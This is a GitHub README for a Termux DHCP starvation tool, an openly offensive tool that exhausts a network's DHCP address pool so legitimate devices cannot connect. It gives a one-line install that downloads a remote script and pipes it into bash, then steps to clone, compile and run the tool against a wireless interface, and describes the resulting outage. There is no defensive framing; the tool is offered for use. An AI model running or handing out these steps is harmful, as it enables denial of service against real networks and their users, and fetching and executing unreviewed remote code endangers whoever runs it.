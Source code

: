 # TERMUX DHCP Starvation Tool
A DHCP starvation tool is a powerful network attack tool that floods a DHCP server with fake DHCP requests, exhausting all available IP addresses in the DHCP pool. This prevents legitimate clients from obtaining an IP address, leading to network disruptions or a complete denial of service (DoS) for affected devices.

# Requirements
- g++ gcc clang compiler
- Termux App

# Screenshots
<details><summary></summary>
  
-----
<img src="https://github.com/xiv3r/dhcp-starvation/blob/main/images/Screenshot_2025_0521_205230.png">

-----
<img src="https://github.com/xiv3r/dhcp-starvation/blob/main/images/Screenshot_2025_0521_205159.png">

</img></details>

# Auto Install
```
pkg update && pkg install wget -y && wget -qO- https://raw.githubusercontent.com/xiv3r/dhcp-starvation/refs/heads/main/auto | bash && cd dhcp-starvation
```

# Manual Installation

- install package
```
pkg update
pkg install wget git clang -y
```
- clone the repo
```
git clone https://github.com/xiv3r/dhcp-starvation.git
cd dhcp-starvation
```
- compiling
```
g++ fuck.cpp -o fuck
```
- run
> add interface "`./fuck -i wlan0`"
```
./fuck
```

# Impact

Disconnect and Reconnect from the wifi

`Connecting...`

`Obtaining IP...`

`No IP Allocation...`
</details>
